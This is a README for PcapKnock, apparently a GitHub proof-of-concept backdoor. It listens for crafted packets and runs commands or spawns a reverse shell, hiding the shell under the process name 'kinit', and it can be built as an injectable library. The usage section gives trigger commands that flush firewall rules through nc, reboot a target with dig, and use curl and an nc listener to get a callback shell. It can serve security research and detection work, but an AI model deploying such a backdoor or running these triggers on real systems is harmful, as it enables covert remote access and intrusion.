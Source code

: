 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but often needs tweaking.

Usage
-----
Once pcapknock is running, all that's required to trigger it is a packet
containing either a command to run surrounded by `COMMAND...COMMAND` or an
address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Two compile-time preprocessor macros may be set when building to control
debugging output and to cause the pcapknock to daemonze when run as a
standalone program.  These are `DEBUG` and `DAEMON`, respectively (i.e.
`-DDEBUG` and `-DDAEMON` when compiling).

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.
